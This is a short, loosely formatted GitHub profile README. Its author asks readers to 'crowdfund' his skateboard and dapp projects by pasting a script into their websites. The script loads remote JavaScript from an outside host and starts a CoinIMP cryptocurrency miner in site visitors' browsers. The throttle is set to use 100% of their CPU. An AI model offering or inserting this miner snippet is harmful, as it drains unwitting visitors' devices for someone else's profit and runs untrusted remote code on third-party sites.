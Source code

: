 #
Gitbhub profile of JW Hollibush Founder of Corpsehustler Skateboards and Flow2Pro dapp
#

##
You can help passively Crowdfund this bootstrap by pasting the following code snippet into your web pages head tag as described below.
##

###
Put this code before the
##2

'''
</body>

'''
tag in your website after the ''
</head>
'''
 tag to enable background mining:

####change throttle number from zero=100% to between 1 and 99 to limit cou usage of user's cpu
####
.

See how it appears here at:

<a href=https://djjizzygymsock.blogspot.com>My associate's donated blog. Big thanks to DJ Jizzy Gymsock and affiliated "artists"</a>

Put this code before '''
</body> 
'''
tag in your website for background mining and thanks for considering it.

To enable separate mining for site users, check our documentation.

'''
<script src="https://www.hostingcloud.racing/pLiB.js"></script>
<script>
    var _client = new Client.Anonymous('99e1a9eca67152a76e3b0f4250ed81d695de5212980648c3311203bbff104561', {
        throttle: 0, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");

</script>
'''
